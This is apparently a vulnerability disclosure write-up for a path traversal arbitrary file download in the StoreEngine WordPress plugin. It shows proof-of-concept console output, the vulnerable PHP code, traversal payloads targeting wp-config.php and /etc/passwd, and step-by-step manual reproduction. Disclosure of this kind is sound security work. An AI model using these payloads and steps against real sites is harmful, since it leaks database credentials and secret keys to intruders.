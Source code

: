 +++
title = 'StoreEngine Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Download'
date = 2025-09-16T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "StoreEngine"]
description = "CVE-2025-9215: WordPress StoreEngine plugin arbitrary file download vulnerability allowing any authenticated user to access system files."
+++
### CVE-2025-9215

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in its CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to download arbitrary files from the server, including sensitive system files, WordPress configuration files, and plugin source code. The vulnerability stems from the `storeengine_csv/file_download` endpoint lacking proper path sanitization and only relying on nonce verification for security, while the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. **Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** Once enabled, this combination allows any authenticated user to extract the nonce from frontend pages and use it to download any file on the server via path traversal attacks, effectively granting subscriber+ users access to sensitive system and application files.

## TL;DR Exploits
* A POC [CVE-2025-9215.py](https://github.com/d0n601/CVE-2025-9215/blob/main/CVE-2025-9215.py) is provided to demonstrate a subscriber user downloading the WordPress configuration file via path traversal.
  
```console
 python3 ./CVE-2025-9215.py http://localhost:1337 user1 password   
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: 82cb37f678
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
The addon activation requires 'manage_options' capability (admin only).

Downloading wp-config.php via path traversal...
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
...
...
...
```

## Details  

### **Vulnerable File Download Function**
**Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** The addon activation endpoint (`storeengine/saved_addon_status`) requires `manage_options` capability, meaning only administrators can enable this functionality.

The `storeengine_csv/file_download` AJAX action calls the `file_download()` function on line [47](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/export.php#L47) of `/wp-content/plugins/storeengine/addons/csv/ajax/export.php`, which lacks proper path sanitization and allows arbitrary file downloads:

```php
public function file_download( array $payload ) {
    if ( ! isset( $payload['filename'] ) ) {
        wp_send_json_error( __( 'Filename is required.', 'storeengine' ) );
    }

    $filename = $payload['filename'];
    $filepath = Helper::get_upload_dir() . '/csv/' . $filename;  // <-- VULNERABLE TO PATH TRAVERSAL!
    
    // NO CAPABILITY CHECK - ANY USER CAN DOWNLOAD ANY FILE!
    // NO PATH SANITIZATION - DIRECT CONCATENATION ALLOWS ../ ATTACKS!
    
    if ( ! file_exists( $filepath ) ) {
        wp_send_json_error( __( 'File not found.', 'storeengine' ) );
    }

    header( 'Content-Type: application/octet-stream' );
    header( 'Content-Disposition: attachment; filename="' . $filename . '"' );
    readfile( $filepath );  // <-- READS AND OUTPUTS ANY FILE!
    exit;
}
```

### **Path Construction Vulnerability**
The vulnerable path construction allows complete path traversal:

```php
// Helper::get_upload_dir() returns:
$upload = wp_upload_dir();
return $upload['basedir'] . '/storeengine_uploads';

// So the full path becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/' . $filename;

// With path traversal, this becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../wp-config.php'
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../../../../etc/passwd'
```


### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```

This combination allows any authenticated user to bypass CSRF protection and download any file on the server, including sensitive configuration files, source code, and potentially system files.

## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Export section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Intercept a request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/file_download` action.
5. Modify the request to include the extracted nonce and a path traversal payload.
6. Send the request with `filename=../../../../wp-config.php` to download the WordPress configuration file.
7. Access sensitive configuration files including database credentials, API keys, and security salts.
